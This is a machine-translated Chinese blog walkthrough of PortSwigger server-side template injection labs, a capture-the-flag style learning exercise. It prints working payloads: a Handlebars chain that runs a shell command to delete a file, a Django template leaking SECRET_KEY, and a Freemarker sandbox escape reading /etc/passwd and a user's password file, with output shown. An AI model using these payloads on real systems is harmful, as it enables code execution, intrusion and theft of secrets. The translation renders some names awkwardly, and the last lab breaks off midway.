# 服务器端模板注入端口触发器实验室演练第三部分

> 原文：<https://infosecwriteups.com/server-side-template-injections-portswiggers-labs-walkthrough-part-iii-bc6983412a3d?source=collection_archive---------2----------------------->

大家好，我是 Hashar Mujahid，今天我们将解决更多来自 Portswiggers 的 SSTI 实验室问题。如果你想了解什么是服务器端模板注入，你可以阅读我以前的博客

*   [服务器端模板注入 I](https://medium.com/bugbountywriteup/server-side-template-injections-by-hashar-mujahid-e5a1a383027e)
*   [服务器端模板注入二](https://medium.com/bugbountywriteup/server-side-template-injections-portswiggers-labs-walkthrough-5a1a06f057d2)



SSTI

让我们从 4 号实验开始:

# 未知语言中的服务器端模板注入，有记录的攻击:

目标:

这个实验室容易受到[服务器端模板注入](https://portswigger.net/web-security/server-side-template-injection)的攻击。要解决这个实验，请识别模板引擎，并在网上找到一个可以用来执行任意代码的记录漏洞，然后从 Carlos 的主目录中删除`morale.txt`文件。

现在我们知道我们需要做什么了。所以让我们从寻找潜在的终点开始。

有一个 view details 按钮，它通过一个名为 message 的参数将我们重定向回主页。



端点

我们可以看到 URL 中的数据反映在页面上。我们也可以尝试跨站点脚本，BTW 完美的工作



XSS

玩够了，让我们回到真正的任务上来。有了潜在的终点，我们可以测试它的模板注射。

让我们将请求发送给入侵者，并用我们的有效载荷列表发起狙击攻击。

```
{{7*7}}  
${7*7}  
<%= 7*7 %>  
${{7*7}}  
#{7*7}
```



从结果中我们可以看到，当我们命中一个无效的语法它内部的服务器错误发生，并给了我们一些信息。



结果



错误

错误消息确认我们正在使用车把模板引擎。

现在让我们在车把模板引擎谷歌 RCE。

有一个很棒的博客告诉我们如何利用这个模板引擎。

[](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/) [## NodeJS 应用程序中的秘密参数 LFR 和潜在 RCE

### 如果您使用带手柄的 ExpressJs 作为通过 hbs 视图引擎调用的模板引擎，对于服务器端渲染…

blog.shoebpatel.com](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/) 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

基本上，我们可以使用这个有效负载来执行代码。我们需要首先对这个有效载荷进行 URL 编码，然后发送 URL。



瞧啊。我们解决了。

去下一个。

# 通过用户提供的对象进行信息公开的服务器端模板注入

目标:

由于对象传递到模板的方式，本实验室容易受到[服务器端模板注入](https://portswigger.net/web-security/server-side-template-injection)的攻击。该漏洞可被用来访问敏感数据。

要解决实验室，窃取并提交框架的密钥。

您可以使用以下凭据登录您自己的帐户:

`content-manager:C0nt3ntM4n4g3r`

我们可以看到我们的凭据，我们应该有一些能力来编辑网站上的内容。

我们在产品的详细信息页面上有一个编辑模板按钮。



编辑。

我们可以在最后一行看到，页面上的一些内容是动态的，如产品库存、名称和价格。这意味着使用了某种模板引擎。

让我们确定正在使用什么样的模板引擎。



有效载荷

我们遇到了内部服务器错误。



Django 模板

这告诉我们 Django 模板引擎正在被使用。让我们试着找到一些在系统上执行代码的方法。

该 pdf 可能会帮助您利用此漏洞。

我能够借助这个有效载荷触发 XSS



当我们点击保存我们的 XSS 有效载荷触发器。



我们可以获得调试信息，但这很麻烦。



调试

经过大量的试验和错误，我找到了有效载荷，以获得密钥

```
{{settings.SECRET_KEY}}
```


秘密钥匙

现在只需提交解决方案


解决

现在到专家级的实验室

# 沙箱环境中的服务器端模板注入

目标:

本实验使用 Freemarker 模板引擎。由于其沙箱实现不佳，它容易受到[服务器端模板注入](https://portswigger.net/web-security/server-side-template-injection)的攻击。要解决实验室问题，请跳出沙箱，从 Carlos 的主目录中读取文件`my_password.txt`。然后提交文件的内容。

您可以使用以下凭据登录您自己的帐户:

`content-manager:C0nt3ntM4n4g3r`

所以我们已经知道实验室正在使用 Freemarker 模板，我们只需要从沙盒环境中脱离出来，阅读`my_password.txt`的内容并提交它。

现在，只需登录您的帐户，然后转到“查看详细信息”按钮，您可以看到有一个“编辑模板”按钮，只需单击它，我们就会得到一个编辑器。



编者ˌ编辑

我们可以看到一些动态内容正被拖到页面上。让我们寻找利用和突破沙盒的方法。

当我们尝试任何有效载荷来利用或执行我们可以看到的代码时，我们可以看到。



不允许执行的调试错误消息。所以我们需要找到另一种方法，或者完全绕过这个沙盒。

[](https://ackcent.com/in-depth-freemarker-template-injection/) [## 深度 Freemarker 模板注入- Ackcent

### 在最近的一次参与中，我们的 AppSec 团队遇到了一个有趣的例子，在…

ackcent.com](https://ackcent.com/in-depth-freemarker-template-injection/) 

本文讨论了模板解析器，以限制哪些`TemplateModels`可以在模板中实例化



我们可以看到我们正面临着同样的防御。

因为他们解释说，如果设置了这种防御，我们就不能执行代码，我按下了“我相信”按钮。

在这里，当一切都失去了“有效载荷所有的东西”来拯救。

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker) [## 主 swisskyrepo 上的 PayloadsAllTheThings/服务器端模板注入

### Web 应用程序安全和 Pentest/CTF-payloads all the things/服务器端的有用负载和旁路列表…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker) 

找到了一个有效负载来读取沙箱内的文件。

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

让我们试试看，并阅读/etc/passwd。



现在将字节转换成 ASCII 字符。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

让我们读一下`my_password.txt`

有效载荷

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```



我们来换算一下。

[](https://onlineasciitools.com/convert-bytes-to-ascii) [## 将字节转换为 ASCII -在线 ASCII 工具

### 字节到 ascii 转换工具什么是字节到 ascii 转换器？这个工具将字节作为输入，并将它们转换成…

onlineasciitools.com](https://onlineasciitools.com/convert-bytes-to-ascii) 

```
 h60nfm92xjzoxywtpy0m
```



用 DJ Khaled 的声音

[**服务器端模板注入自定义漏洞利用**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit) **:**

这个实验室容易受到[服务器端模板注入](https://portswigger.net/web-security/server-side-template-injection)的攻击。为了解决这个实验，创建一个自定义漏洞，从 Carlos 的主目录中删除文件`/.ssh/id_rsa`。

您可以使用以下凭证登录您自己的帐户:`wiener:peter`

UFF！因此，我们这项任务的挑战是编写一个自定义漏洞，从 Carlos 的目录中删除`/.shh/id_rsa`文件。

让我们从识别易受 SSTI 注射影响的终点的第一步开始。

在分析了网络一分钟后，我注意到的一件事是上传功能，除此之外，一切都是一样的。让我们发表一个评论，并更改首选名称功能，以包括我们的有效负载。



首选名称

```
blog-post-author-display=user.nickname}}{{7*7
```

我们包含了有效载荷，现在可以发送请求了。现在刷新你发表评论的页面。


有效负载已执行

现在开始第 2 步:识别模板引擎。

我们现在可以监控模板引擎的行为来识别它。



哈克特里克斯

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php) [## SSTI(服务器端模板注入)

### 模板引擎被设计成通过将固定模板与易变数据相结合来生成网页。服务器端…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php) 

我们可以看到我们的网站对这些有效负载的行为完全相同，所以我们可以说我们的目标正在使用 twig。


嫩枝

好了，我们知道我们有上传头像的功能，它应该有一定的用途，所以让我们也检查一下。

为了检查它，我们可以尝试上传一个无效的图像。

我们可以看到我们点击了一个错误信息

